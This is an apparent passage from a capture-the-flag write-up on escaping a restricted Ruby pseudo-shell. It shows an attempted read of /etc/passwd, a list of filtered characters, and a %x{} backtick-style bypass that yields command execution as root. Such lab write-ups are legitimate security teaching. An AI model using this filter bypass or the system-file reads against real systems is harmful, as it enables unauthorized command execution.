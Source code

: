 Hmm... Looks like we're inside a ruby pseudo shell.

**We can try to read file:**
```ruby
$ File.read('/etc/passwd') 
Forbidden character
```

Umm... Our input is getting filtered?

**Let's test which characters are filtered:**
```ruby
Forbidden character
$ (   
Forbidden character
$ )
Forbidden character
$ [
Forbidden character
$ ]
Forbidden character
$ .
Forbidden character
$ '
Forbidden character
$ "
Forbidden character
```

- Forbidden character: `()[].'"`

Now, we need to bypass that to get OS command execution.

**According to this [StackOverflow](https://stackoverflow.com/questions/2232/how-to-call-shell-commands-from-ruby) post, we can execute command via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Red-Stone-One-Carat/images/Pasted%20image%2020230112115835.png)

**Let's do that:**
```shell
$ %x{id}
uid=0(root) gid=0(root) groups=0(root)
```
